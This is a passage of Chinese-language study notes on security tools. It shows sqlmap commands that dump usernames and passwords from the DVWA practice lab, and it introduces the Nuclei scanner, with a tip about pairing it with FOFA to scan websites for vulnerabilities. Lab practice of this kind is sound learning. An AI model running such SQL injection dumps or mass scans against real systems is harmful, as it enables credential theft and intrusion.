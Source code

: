 ```
https://blog.csdn.net/tmzy1/article/details/129628305
```

#### dvwa中等难度

使用txt文件, 将拦截的请求信息复制到sqlmap目录下的1.txt中

```
python sqlmap.py -r 1.txt --batch --dbs --current-db -D dvwa -T users -C user,password,user_id --dump
```



#### dvwa高难度:

有两个请求, 第一个请求是入口, 第二个请求是真正的响应, 现在需要将两个请求连起来

```
http://192.168.231.128:12345/vulnerabilities/sqli/
```

```
python sqlmap.py -r 1.txt --batch --second-url="http://192.168.231.128:12345/vulnerabilities/sqli/" --dbs --current-db -D dvwa -T users -C user,password,user_id --dump
```



## Nuclei : 漏扫

```
https://github.com/projectdiscovery/nuclei    
https://github.com/projectdiscovery/nuclei-templates  //漏洞模板
```

Nuclei 是一种可快速利用的 **漏洞扫描**程序。 Nuclei 的核心是利用模板（表示为简单的 YAML 文件）来描述检测、排名和解决特定 安全漏洞 的方法。 每个模板都描述了可能的攻击路线，详细说明了漏洞、其严重性、优先级以及偶尔出现的相关漏洞。这种以模板为中心的方法确保 Nuclei 不仅可以识别威胁，还可以精确定位具有切实现实影响的可利用漏洞。

Nuclei引擎使用**文本文件模板来定义检测漏洞所需的步骤, 主要是使用大量模板去扫某网站漏洞**

**可与FOFA等网络空间资产测绘网站进行联动, 去扫洞**

### 安装注意:

根据github上的步骤来即可, 

需要安装最新的go, 然后安装Nuclei的时候, 需要设置一下go的防火墙:

```
https://blog.csdn.net/weixin_42852778/article/details/125720599
```

